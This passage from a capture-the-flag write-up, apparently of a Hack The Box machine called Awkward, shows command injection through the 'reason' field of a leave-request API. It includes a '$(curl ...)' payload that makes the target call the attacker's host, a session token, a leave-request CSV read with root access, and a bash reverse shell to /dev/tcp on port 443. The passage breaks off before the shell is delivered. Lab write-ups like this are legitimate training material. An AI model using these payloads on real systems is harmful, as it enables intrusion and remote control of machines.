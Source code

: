 

    oxdf@hacky$ curl http:/hat-valley.htb/api/submit-leave -H "Content-type: application/json" -d '{"reason": "$(curl http://10.10.14.6/test)", "start": "today", "end": "tomorrow"}'
    Invalid user



I'll grab a token from a logged in session. Running now returns success:



    oxdf@hacky$ token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc2NTU4MjMzfQ.fXwdefR-bakjLwjeO2BnDnoMXz2mWxN2rkkYusR8svk
    oxdf@hacky$ curl http:/hat-valley.htb/api/submit-leave -H "Content-type: application/json" -d '{"reason": "$(curl http://10.10.14.6/test)", "start": "today", "end": "tomorrow"}' -b "token=$token"
    Successfully added new leave request



There is also a request at my webserver:



    10.10.11.185 - - [17/Feb/2023 12:15:16] "GET /test HTTP/1.1" 200 -



With the root shell, I can even see the results in `leave_requests.cvs`:



    root@awkward:/var/www/private# cat leave_requests.csv 
    Leave Request Database,,,,
    ,,,,
    HR System Username,Reason,Start Date,End Date,Approved
    bean.hill,Taking a holiday in Japan,23/07/2022,29/07/2022,Yes
    christine.wool,Need a break from Jackson,14/03/2022,21/03/2022,Yes
    jackson.lightheart,Great uncle's goldfish funeral + ceremony,10/05/2022,10/06/2022,No
    jackson.lightheart,Vegemite eating competition,12/12/2022,22/12/2022,No
    christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
    christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes
    bean.hill,Inevitable break from Chris after Japan,14/08/2022,29/08/2022,No
    christopher.jones,0xdf was here!,today,tomorrow,Pending



"0xdf was here!" is the contents of `test`.

#### Shell

To get a shell, I'll create a simple [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in a file called
`shell`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1



Now I'll `curl` that into `bash` on Awkward:


